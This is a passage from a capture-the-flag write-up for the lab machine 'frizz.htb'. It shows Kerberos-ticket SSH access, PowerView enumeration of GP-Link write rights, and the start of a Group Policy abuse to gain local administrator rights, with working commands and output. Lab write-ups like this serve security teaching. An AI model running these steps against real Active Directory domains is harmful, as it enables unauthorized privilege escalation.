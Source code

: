 
We were able to get the TGT of `M.SchoolBus`.

```console
$ KRB5CCNAME=M.SchoolBus.ccache ssh M.SchoolBus@frizz.htb
PS C:\Users\M.SchoolBus>
```

After not finding much on BloodHound, I started to proceed my enumeration with PowerView. First copy `PowerView.ps1` to the machine with scp and execute `powershell.exe` to be able to import the script.

```console
$ KRB5CCNAME=M.SchoolBus.ccache scp PowerView.ps1 M.SchoolBus@frizz.htb:C:\\Users\\M.SchoolBus

PS C:\Users\M.SchoolBus> powershell.exe
PS C:\Users\M.SchoolBus> . .\PowerView.ps1
```

### GPO Abuse
One topic that I learned recently is GPO abuse so I started to look if this account was able to link GPOs to the domain. Next I also looked at if there are users that can link GPOs to OUs.

```console
PS C:\Users\M.SchoolBus> Get-DomainObjectAcl -SearchScope Base -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List

ObjectDN    : DC=frizz,DC=htb
ResolvedSID : frizz\M.SchoolBus

PS C:\Users\M.SchoolBus> Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List

ObjectDN    : OU=Domain Controllers,DC=frizz,DC=htb
ResolvedSID : frizz\M.SchoolBus

ObjectDN    : OU=Class_Frizz,DC=frizz,DC=htb
ResolvedSID : frizz\M.SchoolBus
```

We see that `M.SchoolBus` can link to the domain and both the `Domain Controllers` and `Class_Frizz` OUs. With these permissions we can elevate our privileges and add our account to the local administrators group.

First we create a new GPO.

```console
PS C:\Users\M.SchoolBus> New-GPO -Name "NewGPO" -Comment "This is a test GPO"

DisplayName      : NewGPO
DomainName       : frizz.htb
Owner            : frizz\M.SchoolBus
Id               : 42a6ef68-b465-4886-9872-eee1e3787879
GpoStatus        : AllSettingsEnabled
Description      : This is a test GPO
CreationTime     : 3/16/2025 5:16:29 PM
ModificationTime : 3/16/2025 5:16:29 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :
```
